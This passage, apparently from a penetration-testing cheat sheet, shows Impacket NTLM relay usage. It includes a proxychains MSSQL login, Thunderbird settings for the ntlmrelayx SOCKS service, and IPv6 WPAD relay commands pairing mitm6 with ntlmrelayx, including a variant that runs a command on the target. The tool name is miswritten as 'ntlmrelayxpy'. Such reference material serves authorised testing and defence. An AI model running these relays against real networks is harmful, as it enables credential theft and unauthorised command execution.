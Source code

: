 ```
[...]

# MSSQL example.
proxychains mssqlclient.py -windows-auth <DOMAIN>/<USERNAME_MSSQL_EX>@<IP_MSSQL_EX>

# SMTP example.
Thunderbird can be configured to make use of ntlmrelayx SOCKS service.
The Authentication method should be set to "Normal Password" and the (Server Setting->Advanced) "Maximum number of server connections to cache" set to 1.
The under "Network Setting" the SOCKS service can be specifed.
For more information, refer to: https://www.secureauth.com/blog/playing-relayed-credentials.
```

###### IPv6 WPAD relay

The `Impacket`'s `ntlmrelayx.py` utility can be used to relay `NTLM`
authentication captured using the `mitm6` utility.

```
# The authentication can be relayed to a specific service, such as smb://<TARGET_IP | TARGET_HOSTNAME> or ldaps://<TARGET_IP | TARGET_HOSTNAME>
# -wh: the specified WPAD hostname should be a hostname not in use in the victim network

ntlmrelayxpy -6 [-smb2support] -wh <FAKE_WPAD_HOST> -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE>
ntlmrelayxpy -6 [-smb2support] -wh <FAKE_WPAD_HOST> -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE> -c <COMMAND>
ntlmrelayxpy -6 [-smb2support] -wh <FAKE_WPAD_HOST> -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE> -socks
```
